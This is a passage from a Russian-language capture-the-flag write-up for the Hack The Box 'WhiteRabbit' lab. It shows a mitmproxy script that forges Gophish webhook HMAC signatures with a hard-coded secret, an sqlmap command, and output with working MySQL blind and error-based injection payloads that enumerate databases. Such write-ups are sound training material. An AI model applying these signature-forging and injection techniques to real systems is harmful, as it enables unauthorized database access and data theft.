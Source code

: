 поле `email` не экранируеться, соотвественно, скорей всего, там есть SQL инъекция, но есть одна небольшая проблема: `LIMIT 1`, это небольшая проблема, потому 
что её можно обойти

В SQL `LIMIT` управляет количеством строк, которые вернёт запрос, в данном случае у нас SQL может вернуть только одну строку, поэтому класические вредоносные
payload тут не будут работать. Место того, чтоб пытаться подбирать самостоятельно эти запросы, лучше будет использовать `SQLmap`, для этого, нам нужно написать 
скрипт, который подделывать `HMAC` подпись: мы перехвачиваем запрос от `SQLmap`, хешируем его `body` с помощью нашего секрета, в `head` передаем этот хеш, и потом 
уже отправляем запрос

<img width="1280" height="520" alt="image" src="https://github.com/user-attachments/assets/cabdf99d-9ffc-4c61-842b-c95395110bd6" />

Рекомендую лучше разобраться с документацией в `http://a668910b5514e.whiterabbit.htb/en/gophish_webhooks`, и как это все работает под капотом

```py
from mitmproxy import http
import json
import hmac
import hashlib

SECRET = b"3CWVGMndgMvdVAzOjqBiTicmv7gxc6IS"

def request(flow: http.HTTPFlow):
    if flow.request.path.startswith("/webhook/") and flow.request.method == "POST":
        try:
            raw_data = flow.request.get_content()
            signature = hmac.new(SECRET, raw_data, hashlib.sha256).hexdigest()
            flow.request.headers["x-gophish-signature"] = f"sha256={signature}"
        except Exception as e:
            flow.request.headers["x-gophish-signature"] = "error-signing"
```

```
(lab-env) Hexada@hexada ~/pentest-env/pentesting-tools/sqlmap$ python3 sqlmap.py -u "http://28efa8f7df.whiterabbit.htb/webhook/d96af3a4-21bd-4bcb-bd34-37bfc67dfd1d" \          1 ↵ master 
  --data='{"campaign_id":1,"email":"*","message":"Clicked Link"}' \
  --headers="Content-Type: application/json" \
  --proxy="http://127.0.0.1:1717" \
  --technique=BE --time-sec=3 --dbs

---
Parameter: JSON #1* ((custom) POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: {"campaign_id":1,"email":"" RLIKE (SELECT (CASE WHEN (7681=7681) THEN '' ELSE 0x28 END))-- TjUm","message":"Clicked Link"}

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: {"campaign_id":1,"email":"" AND (SELECT 8200 FROM(SELECT COUNT(*),CONCAT(0x71706a6a71,(SELECT (ELT(8200=8200,1))),0x7178716b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- FkoX","message":"Clicked Link"}
---
[20:14:26] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[20:14:28] [INFO] fetching database names
[20:14:29] [INFO] retrieved: 'information_schema'
[20:14:29] [INFO] retrieved: 'phishing'
[20:14:30] [INFO] retrieved: 'temp'
available databases [3]:
[*] information_schema
[*] phishing
[*] temp
```